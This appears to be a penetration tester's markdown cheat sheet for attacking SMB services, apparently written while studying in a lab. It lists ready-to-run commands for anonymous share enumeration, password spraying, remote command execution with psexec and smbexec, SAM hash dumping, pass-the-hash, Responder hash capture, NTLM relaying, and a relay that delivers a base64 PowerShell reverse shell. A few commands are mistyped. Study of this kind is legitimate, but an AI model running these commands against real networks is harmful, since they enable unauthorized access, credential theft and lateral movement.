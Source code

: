 ### Misconfigurations

No Auth = null session 
	Anonymous login
#SMBClient
```shell
smbclient -N -L //10.129.14.128
```
#SMBMap
```shell
smbmap -H 10.129.14.128
```
```shell
smbmap -H 10.129.14.128 -r notes
```
```shell
smbmap -H 10.129.14.128 --download "notes\note.txt"
```
```shell
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

#### #RPC 
Take advantage of null sessions 
Enumerate DC?
[cheat sheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)
```shell
rpcclient -U'%' 10.10.110.17
```

```shell
/enum4linux-ng.py 10.10.11.45 -A -C
```

### Password spray / #bruteforce 

```shell-session
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

### #RCE
```shell
impacket-psexec -h (<impacket-psexec administrator:'Password123!'@10.10.110.17>)
```

```shell
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

#### Logged on Users

```shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

#### Extracting SAM Hashes 

```shell
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

#### #PtH

```shell
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

### Forced Authentication Attacks 
Fake SMB Server to capture NTLM v1/2 hashes

```shell
responder -I <interface name>
```
crack creds on hashcat/john

Saved hashes will go to 
`/usr/share/responder/logs/`)

### Relay hash to [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)/ [multirelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)
Set #SMB to of in responder 
```shell
cat /etc/responder/Responder.conf | grep 'SMB ='
```

Execute ntlmrelayx
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
Will dump SAM database,
execute commands with -c 

### Reverse shell
```shell
mpacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c <powershell base 64>
```
Need client to connect to SMB share 

## Recent Vulns
[SMBGhost](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)
windows 10 1903 and 1909
Allows RE 

